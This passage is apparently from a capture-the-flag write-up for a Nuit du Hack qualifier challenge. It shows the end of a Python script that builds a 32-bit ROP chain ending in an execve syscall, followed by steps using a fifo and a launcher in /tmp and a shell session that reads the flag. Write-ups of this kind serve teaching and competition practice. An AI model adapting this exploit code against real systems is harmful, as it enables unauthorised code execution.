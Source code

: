 payload += p32(environ_addr)
payload += p32(0x080da8e6) # : mov edi, dword ptr [edx] ; ret
payload += p32(0x080483ae) # : pop ebp ; ret (just to have a valid address in edx)
payload += p32(environ_addr)
payload += p32(0x08050b60) # : mov eax, edi ; mov edx, ebp ; pop edi ; pop ebp ; ret
payload += p32(0x41414141) * 2
payload += p32(0x080eaa2d) # : add ebx, dword ptr [eax] ; add dword ptr [edx], ecx ; ret

# to pass by the 's=' in the env var
payload += p32(0x080de209) # inc ebx ; ret
payload += p32(0x080de209) # inc ebx ; ret

# set eax
payload += p32(0x080beb26) # pop eax ; ret
payload += p32(0xf5fed208) # hex(0xffffffff - 0xa012e03+1 + 11)
payload += p32(0x080e5e43) # add eax, 0xa012e03 ; ret

# set edx
payload += p32(0x0807270a) # pop edx ; ret
payload += p32(0xffffffff) #
payload += p32(0x0805d6f7) # inc edx ; ret

# syscall
payload += p32(0x08049501) # int 0x80

print payload
{% endhighlight %}

## Execution

The `/tmp` directory was writable but not readable, it was therefore a good
place to hide our files. Here are the steps need to finally exploit the binary:

* create a directory `/tmp/something` on the remote machine
* generate the payload with the python script
* compile the launcher
* `scp` both files to `/tmp/something`
* open two ssh connections:
  1. create a fifo `/tmp/something/fifo` and `cat payload > fifo`
  2. execute the launcher

{% highlight shell-session %}
chall@73ca0efc4605:~$ /tmp/something/launch
The file has been saved successfully
$ ls
flag  pwn
$ cat flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
$
{% endhighlight %}


[ndh]: https://quals.nuitduhack.com/
[stat]: http://man7.org/linux/man-pages/man2/stat.2.html
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[syscall]: http://man7.org/linux/man-pages/man2/syscall.2.html
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html